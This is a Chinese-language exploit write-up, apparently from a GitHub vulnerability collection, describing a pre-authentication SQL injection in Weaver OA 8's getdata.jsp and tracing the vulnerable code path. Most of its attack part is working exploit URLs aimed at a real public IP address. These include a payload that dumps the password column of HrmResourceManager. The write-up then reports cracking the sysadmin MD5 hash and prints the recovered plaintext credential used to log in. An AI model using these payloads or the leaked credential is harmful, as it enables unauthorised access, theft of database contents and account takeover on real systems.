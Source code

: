 # 泛微OA8前台SQL注入
漏洞URL：

    http://106.15.190.147/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=***注入点

在getdata.jsp中，直接将request对象交给`weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext)` : 方法处理

![](%E6%B3%9B%E5%BE%AEOA8%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5/%E5%9B%BE%E7%89%871.png)

在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法

![](%E6%B3%9B%E5%BE%AEOA8%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5/%E5%9B%BE%E7%89%872.png)

Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)  
在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进`getSelectAllIds（sql,type）`方法中

![](%E6%B3%9B%E5%BE%AEOA8%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5/%E5%9B%BE%E7%89%873.png)

在getSelectAllIds（sql,type）方法中，直接将sql参数的值，传递进数据库执行，并判断type的值是否等于5，如果等于5，获取查询结果的requestId字段，否则获取查询结果的id字段  
到此，参数从URL，一直到数据库被执行

![](%E6%B3%9B%E5%BE%AEOA8%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5/%E5%9B%BE%E7%89%874.png)

根据以上代码流程，只要构造请求参数  
`?cmd= getSelectAllId&sql=select password as id from userinfo;`  
即可完成对数据库操控  
在浏览器中，构造测试URL：  
`http://106.15.190.147/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%201234%20as%20id`  
页面显示1234

![](%E6%B3%9B%E5%BE%AEOA8%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5/%E5%9B%BE%E7%89%875.png)

使用payload：  
`Select password as id from HrmResourceManager`

    http://106.15.190.147/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![](%E6%B3%9B%E5%BE%AEOA8%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5/%E5%9B%BE%E7%89%876.png)

对密文进行md5对比：

![](%E6%B3%9B%E5%BE%AEOA8%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5/%E5%9B%BE%E7%89%877.png)

使用sysadmin    123450aA.登录系统

![](%E6%B3%9B%E5%BE%AEOA8%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5/%E5%9B%BE%E7%89%878.png)